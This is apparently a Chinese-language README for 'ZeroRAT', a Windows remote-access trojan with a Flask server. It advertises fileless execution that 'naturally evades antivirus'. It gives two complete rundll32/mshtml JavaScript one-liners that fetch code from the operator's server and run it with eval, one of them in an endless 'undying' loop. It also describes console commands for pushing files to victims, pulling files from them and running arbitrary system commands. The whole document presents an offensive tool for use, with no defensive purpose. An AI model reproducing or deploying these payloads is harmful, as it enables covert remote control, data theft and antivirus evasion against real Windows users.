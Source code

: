 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码
记得要检查下把debug关掉

程序依赖flask和sqlite3，自行pip安装

##客户端
把<server>:<ip>替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<server>:<ip>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<server>:<ip>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： http://<server>:<ip>/server/

服务端支持的命令有

* sessions  列出活动的客户端
* use <id>  根据id选择客户端
* show globals/downloads/uploads  查看全局变量、客户端能下载的文件、客户端上传的文件
* delete session  删除当前客户端
* delete download/upload <id> 按照id删除文件
* upfile  上传文件到服务器，并添加到downloads列表
* download  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* upload  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js
后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py
客户端payload生成 payload.py

数据库操作相关 /models/

##联系方式
http://5alt.me
md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0
http://drops.wooyun.org/tips/11764
https://github.com/chromakode/xkcdfools
http://www.kammerl.de/ascii/AsciiSignature.php

##TODO
完善命令
heartbeat随任务量来决定sleep时间



